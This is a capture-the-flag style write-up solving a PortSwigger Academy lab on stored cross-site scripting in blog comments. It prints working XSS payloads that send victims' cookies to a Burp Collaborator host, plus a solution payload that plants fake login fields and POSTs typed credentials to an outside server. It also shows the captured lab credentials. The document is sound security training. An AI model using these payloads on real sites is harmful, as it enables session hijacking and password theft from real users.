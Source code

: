 
# Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.

---------------------------------------------

Reference: https://portswigger.net/web-security/cross-site-scripting

---------------------------------------------

Generated link: https://0a4b0017031c1eafc216d371007b007a.web-security-academy.net/


We test the most simple XSS payload:



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/1.png)

It gets executed:



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/2.png)


Next we test a payload from https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md: 

```
<script>var i=new Image;i.src="http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie="+document.cookie;</script>
```

Or

```
<img src=x onerror="this.src='http://ecu0uhyerytdj8d8vdyuowv8zz5qtlha.oastify.com/?cookie='+document.cookie; this.removeAttribute('onerror');">
```




![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/3.png)

We get an HTTP request with the cookie:



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/4.png)

Next I opened the Firefox debugger's Console and set the cookie:

```
document.cookie="secret=5yN1hPLMMamjE1mFPVb7ocKMq7BSYyTK"
```



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/5.png)

But that does not work...


Solution:

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/6.png)

Collaborator response:



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/7.png)

Solved with credentials administrator:ec7ga43qyd9zisyb4h4i:



![img](images/Exploiting%20cross-site%20scripting%20to%20capture%20passwords/8.png)
